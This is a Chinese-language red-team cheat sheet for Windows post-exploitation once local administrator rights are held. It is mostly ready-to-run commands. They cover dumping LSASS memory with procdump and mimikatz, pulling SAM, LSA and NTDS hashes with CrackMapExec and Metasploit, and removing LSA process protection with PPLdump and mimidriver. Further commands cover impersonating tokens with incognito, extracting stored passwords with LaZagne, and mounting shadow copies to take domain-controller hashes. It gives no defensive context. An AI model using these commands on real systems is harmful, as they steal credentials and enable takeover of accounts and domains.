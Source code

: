 


## 拥有本地管理员权限

### 获取密码

~~~asciiarmor
procdump.exe -accepteula -ma lsass.exe lsass.dmp

mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"

mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"

hashdump: post/windows/gather/smart_hashdump
cme smb <ip_range> -u <user> -p <password> -M lsassy
cme smb <ip_range> -u <user> -p '<password>' --sam / --lsa / --ntds
~~~



### 绕过LSA防护策略读取密码

~~~asciiarmor
PPLdump64.exe <lsass.exe|lsass_pid> lsass.dmp

mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate"  "sekurlsa::logonpasswords" "!processprotect  /process:lsass.exe" "!-" #with mimidriver.sys 
~~~



### token窃取

~~~asciiarmor
.\incognito.exe list_tokens -u
.\incognito.exe execute -c "<domain>\<user>" powershell.exe

use incognito
impersonate_token <domain>\\<user>
~~~

之前粗略分析过 token

[Token窃取那些事 (0range-x.github.io)](https://0range-x.github.io/2021/09/30/Token窃取那些事/)

### 查看本地存储的所有密码

~~~
lazagne.exe all
~~~



### 卷影拷贝（获取域控所有hash）

~~~apl
diskshadow list shadows all

mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
~~~
